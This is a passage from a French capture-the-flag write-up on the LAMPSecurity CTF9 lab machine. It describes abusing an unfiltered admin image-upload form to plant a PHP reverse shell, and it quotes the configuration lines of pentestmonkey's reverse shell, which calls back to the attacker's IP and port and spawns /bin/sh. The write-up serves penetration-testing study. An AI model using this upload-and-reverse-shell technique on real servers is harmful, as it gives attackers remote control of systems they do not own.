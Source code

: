```console
```

Bingo ! Seule la personne derrière le compte ```root``` a opté pour un mot de passe différent de celui de l'interface d'administration du site Internet. Cela dit, dans l'éventualité où les mots de passe n'auraient pas été si faciles que cela à deviner, il aurait tout de même été possible d'obtenir un shell sur la VM.

## Formulaire d'upload de l'IHM admin et mise en place d'un reverse shell

En effet, parmi les fonctionnalités du portail d'administration de _LAMPSecLabs_, on y trouve un formulaire d'upload de fichiers images. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate qu'il est possible d'uploader n'importe quel type de fichier, et pas seulement des JPG, des PNG ou des BMP...

Il est ainsi possible de transférer [un script malveillant](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, d'y exécuter des commandes arbitraires et d'en prendre le contrôle. Le principe est le suivant : un reverse shell en PHP va être créé et déposé sur le serveur. Ce bout de code va créer une connexion sur le port 12345 entre le serveur LampSecurity CTF9 (192.168.56.103) et notre propre machine (192.168.56.101).

![Affichage de l'image CTF9_admin_upload.png](images/CTF9_admin_upload.png)

Le _reverse shell_ mis à disposition par [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) fonctionne toujours à merveille ! Extrait...

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.56.101';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
